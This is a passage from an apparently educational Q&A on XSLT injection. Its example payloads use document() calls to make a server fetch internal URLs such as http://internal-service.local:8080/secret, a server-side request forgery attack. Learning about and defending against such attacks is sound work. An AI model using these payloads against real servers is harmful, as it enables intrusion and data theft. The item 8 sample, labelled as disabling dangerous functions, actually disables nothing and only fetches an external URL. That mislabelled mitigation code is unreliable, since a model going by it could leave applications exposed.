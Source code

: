 
### 6. **How can an attacker exploit XSLT to perform Server-Side Request Forgery (SSRF) attacks?**
   - **Answer:**  
     SSRF attacks occur when an attacker tricks the server into making requests to internal or external services. By manipulating the XSLT stylesheets to send requests (e.g., HTTP, file system, or internal services), attackers can gather sensitive information or interact with restricted systems.
   - **Example Payload (Making an HTTP Request via XSLT):**
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/fruits">
         <xsl:copy-of select="document('http://internal-service.local')"/>
       </xsl:template>
     </xsl:stylesheet>
     ```
     This payload forces the XSLT processor to fetch a resource from an internal server (`http://internal-service.local`), which could be a restricted service within the network.

---

### 7. **What is the risk of allowing external HTTP requests in XSLT transformations?**
   - **Answer:**  
     Allowing external HTTP requests in XSLT transformations can introduce SSRF and data exfiltration vulnerabilities. Attackers can use this to make requests to internal resources, including databases, file systems, or sensitive services, potentially leading to information leakage or compromise of internal systems.
   - **Example Payload (Accessing internal resources):**
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
       <xsl:template match="/fruits">
         <xsl:copy-of select="document('http://internal-service.local:8080/secret')"/>
       </xsl:template>
     </xsl:stylesheet>
     ```
     This payload fetches internal resources that may not be publicly accessible, leading to a leak of sensitive information.

---

### 8. **How can XSLT Injection be prevented in web applications?**
   - **Answer:**  
     To prevent XSLT Injection attacks:
     1. **Validate Input:** Ensure that all user-supplied XML data is validated and sanitized.
     2. **Avoid Processing Untrusted XSLT:** Only use trusted XSLT stylesheets that are not influenced by user input.
     3. **Disable Dangerous Functions:** Disable functions like `php:function()` or `java:Runtime` in the XSLT processor.
     4. **Use Whitelisting:** Ensure that only specific, safe external resources can be loaded within XSLT transformations.
     5. **Limit XSLT Capabilities:** Use a restricted XSLT processor configuration to limit file system access or remote requests.
   - **Example of Disabling Dangerous Functions:**  
     ```xml
     <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
       <xsl:template match="/">
         <xsl:value-of select="document('http://trusted-source.com')"/>
       </xsl:template>
     </xsl:stylesheet>
     ```